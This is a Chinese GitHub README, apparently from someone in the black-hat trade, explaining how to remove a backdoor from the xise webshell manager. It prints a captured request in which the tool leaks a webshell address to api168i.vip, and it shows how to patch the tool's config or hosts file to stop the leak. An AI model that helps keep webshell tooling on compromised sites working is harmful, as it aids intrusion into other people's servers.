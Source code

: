 # securitydrops
These are some things encountered on the road to making money, converted into articles

## xise后门去除

工具来源：https://webshell6.com/?id=4 (不出意外应该全站有后门，站长却意思全站无后门，估计是几年老黑啊)

准备工具：WSExokrer、c32asm

![image](https://github.com/hcsmall/securitydrops/assets/139908133/ae36239a-069b-4150-8a86-11dde98b7007)


启动程序后使用WSExokrer 选择xise进程监控，给XISE添加一条链接

![image](https://github.com/hcsmall/securitydrops/assets/139908133/51b83c3e-e2c0-4680-933c-6b2e37454e4e)




`POST /abc1.php HTTP/1.1`  
`Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*`  
`Referer: http://api168i.vip/abc1.php`  
`Accept-Language: zh-cn`  
`Content-Type: application/x-www-form-urlencoded`  
`Content-Length: 43`  
`User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)`  
`Host: api168i.vip`  
`Cache-Control: no-cache`  

`hm=http://xxxx/bak111.php||xise`



可以看到向api168i.vip 发送了明显的shell数据，找到后就可以去找后门地址去掉就可以了。

mdb 数据库文件

exe本身

调用文件dat

使用c32asm加载fz.dat这个配置文件，搜索api168i.vip。



![image](https://github.com/hcsmall/securitydrops/assets/139908133/9ed2afdf-3f46-4183-8cda-74acd6b7427c)




将地址直接填充后保存即可。

当然如果你不会使用c32的话，也可以修改本地hosts文件将 api168i.vip 指向127.0.0.1 同样也可以解决向后门地址发送shell的问题



## 回头望黑产上的seo，并非出国才能赚百万





## 一次服务器被而已攻击（最终对于攻击者当然是摁在地上摩擦了）
